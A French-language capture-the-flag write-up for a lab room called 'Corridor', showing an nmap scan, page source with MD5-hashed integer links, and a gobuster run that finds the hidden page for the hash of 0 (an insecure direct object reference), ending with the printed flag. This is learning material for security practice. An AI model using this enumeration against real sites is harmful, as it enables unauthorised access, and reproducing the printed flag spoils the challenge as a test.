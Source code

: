 # Corridor

## What is the flag?

### Nmap Scan

```
Nmap scan report for 10.10.68.111
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor```

### Exploit IDOR

Nous pouvois voir des hash sur le code source de la site inspectons les:

`view-source:http://10.10.245.63/`

```
    <map name="image-map">
        <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>


</body>
</html>
```

Grâce à crackstation nous avons pu voir que la premère hash est égale à 1. 
J'ai donc crée une wordlist avec toutes les hash puis j'ai lancer gobuster et le résultat est le suivant:

```
/a87ff679a2f3e71d9181a67b7542122c (Status: 200) [Size: 632]
/8f14e45fceea167a5a36dedd4bea2543 (Status: 200) [Size: 632]
/c9f0f895fb98ab9159f51fd0297e236d (Status: 200) [Size: 632]
/1679091c5a880faf6fb5e6087eb1b2dc (Status: 200) [Size: 632]
/eccbc87e4b5ce2fe28308fd9f2a7baf3 (Status: 200) [Size: 632]
/c81e728d9d4c2f636f067f89cc14862c (Status: 200) [Size: 632]
/45c48cce2e2d7fbdea1afc51c7c6ad26 (Status: 200) [Size: 632]
/a87ff679a2f3e71d9181a67b7542122c (Status: 200) [Size: 632]
/c4ca4238a0b923820dcc509a6f75849b (Status: 200) [Size: 632]
/cfcd208495d565ef66e7dff9f98764da (Status: 200) [Size: 797]
/c20ad4d76fe97759aa27a0c99bff6710 (Status: 200) [Size: 632]
/d3d9446802a44259755d38e6d163e820 (Status: 200) [Size: 632]
/6512bd43d9caa6e02c990b0a82652dca (Status: 200) [Size: 632]
```
Nous pouvons voir une différence entre tous ces directory c'est la hash où est écrit Size: 797. En effet cette dir contient le flag que nous cherchons.


*http://10.10.245.63/cfcd208495d565ef66e7dff9f98764da*

**Flag:** `flag{2477ef02448ad9156661ac40a6b8862e}`



